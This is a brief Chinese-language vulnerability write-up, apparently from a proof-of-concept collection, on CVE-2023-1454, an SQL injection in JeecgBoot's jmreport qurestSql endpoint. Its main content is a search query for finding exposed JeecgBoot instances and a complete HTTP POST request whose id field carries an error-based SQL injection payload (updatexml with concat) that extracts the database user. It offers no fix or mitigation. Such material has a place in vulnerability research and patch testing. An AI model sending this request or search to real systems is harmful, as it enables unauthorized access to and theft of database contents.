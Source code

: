 # JeecgBoot 企业级低代码平台 qurestSql SQL注入漏洞 CVE-2023-1454

## 漏洞描述

JeecgBoot 企业级低代码平台 qurestSql接口存在 SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库中的敏感数据，进一步攻击

## 漏洞影响

JeecgBoot 企业级低代码平台

## 网络测绘

```
app="JeecgBoot-企业级低代码平台"
```

## 漏洞复现

登陆页面

![image-20230504140737296](images/image-20230504140737296.png)

验证POC

```
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
Content-Type: application/json

{"apiSelectId":"1290104038414721025",
"id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}
```

![image-20230504140757639](images/image-20230504140757639.png)